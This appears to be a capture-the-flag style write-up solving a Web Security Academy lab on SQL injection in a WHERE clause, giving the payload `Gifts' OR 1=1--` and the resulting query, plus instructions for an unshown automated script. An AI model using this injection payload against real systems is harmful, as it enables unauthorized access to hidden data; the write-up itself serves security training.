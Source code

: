 # SQL Injection Lab 01 - SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

## Manual Solution

### 1. Open the lab in Web Security Academy.
### 2. Add the following to the URL: `filter?category=Gifts`
- This URL triggers the following SQL query 
    ```sql 
    SELECT * FROM products WHERE category = 'Gifts'
    ```

### 2. Add the following to the URL: `filter?category=Gifts' OR 1=1--`
- This URL triggers the following SQL query: 
    ```sql 
    SELECT * FROM products WHERE category = 'Gifts' OR 1 = 1--'
    ```
    - The WHERE clause is always true because OR 1 = 1 is always true.
    - As a result, this URL displays all products regardless of their category.

### 3. You will see the SQL Injection successful message.

## Automated Solution

### 1. Download the script
### 2. Run the script with the following command: python sqli_lab_01.py -u <target_url> -p (if you want to use proxy 127.0.0.1:8080)

